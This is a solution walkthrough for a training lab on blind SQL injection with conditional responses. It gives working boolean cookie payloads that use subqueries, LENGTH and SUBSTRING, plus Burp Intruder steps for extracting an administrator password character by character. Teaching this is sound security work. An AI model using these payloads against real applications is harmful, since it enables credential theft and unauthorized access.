 # Lab: Blind SQL injection with conditional responses

### PRACTITIONER


> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

>To solve the lab, log in as the administrator user. 


### Solution

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the <code>TrackingId</code> cookie. For simplicity, let's say the original value of the cookie is <code>TrackingId=xyz</code>.

2. Modify the <code>TrackingId</code> cookie, changing it to: <code>TrackingId=xyz' AND '1'='1</code>. Verify that the "Welcome back" message appears in the response.

3. Now change it to: <code>TrackingId=xyz' AND '1'='2</code>. Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

4. Now change it to: <code>TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a</code>. Verify that the condition is true, confirming that there is a table called <code>users</code>.

5. Now change it to: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a</code>. Verify that the condition is true, confirming that there is a user called <code>administrator</code>.

6. The next step is to determine how many characters are in the password of the <code>administrator</code> user. To do this, change the value to: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;1)='a</code>. This condition should be true, confirming that the password is greater than 1 character in length.

7. Send a series of follow-up values to test different password lengths. Send: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;2)='a</code>. Then send: <code>TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)&gt;3)='a</code>. And so on. You can do this manually using <a href="/burp/documentation/desktop/tools/repeater">Burp Repeater</a>, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.

8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use <a href="/burp/documentation/desktop/tools/intruder">Burp Intruder</a>. Send the request you are working on to Burp Intruder, using the context menu.

9. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.

10. In the Positions tab, change the value of the cookie to: <code>TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a</code>. This uses the <code>SUBSTRING()</code> function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

11. Place payload position markers around the final <code>a</code> character in the cookie value. To do this, select just the <code>a</code>, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): <code>TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§</code>

12. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

13. To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

14. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

15. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

16. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: <code>TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a</code>

17. Launch the modified attack, review the results, and note the character at the second offset.

18. Continue this process testing offset 3, 4, and so on, until you have the whole password.

19. In your browser, click "My account" to open the login page. Use the password to log in as the <code>administrator</code> user.
